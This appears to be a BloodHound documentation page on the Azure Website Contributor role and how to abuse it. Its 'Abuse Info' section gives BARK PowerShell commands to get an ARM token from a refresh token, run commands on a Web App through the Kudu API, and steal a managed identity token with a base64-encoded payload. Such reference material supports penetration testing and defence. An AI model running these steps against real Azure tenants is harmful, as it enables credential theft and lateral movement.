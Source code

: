 ---
title: AZWebsiteContributor
description: "The Website Contributor role grants full control of the target Function App or Web App. Full control of either of those types of resources allows for arbitrary command execution against the target resoruce."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



## Abuse Info

You can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute commands on a target Web App. You can use BARK’s New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, and Get-AzureFunctionOutput functions to execute arbitrary commands against a target Function App.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the web app or function app. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```
Now you can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute a command against the target Web App. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMWebAppShellCommand `
    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
    -Token $ARMToken `
    -Command "whoami"
```
If the Web App has a managed identity assignments, you can use BARK’s Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
PS C:\> $PowerShellCommand =
        $headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
        $response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
        $response.RawContent

PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

PS C:\> $Command = "powershell -enc $($base64Cmd)"

PS C:\> Invoke-AzureRMWebAppShellCommand `
        -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
        -token $ARMToken `
        -Command $Command

```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
* [https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95](https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
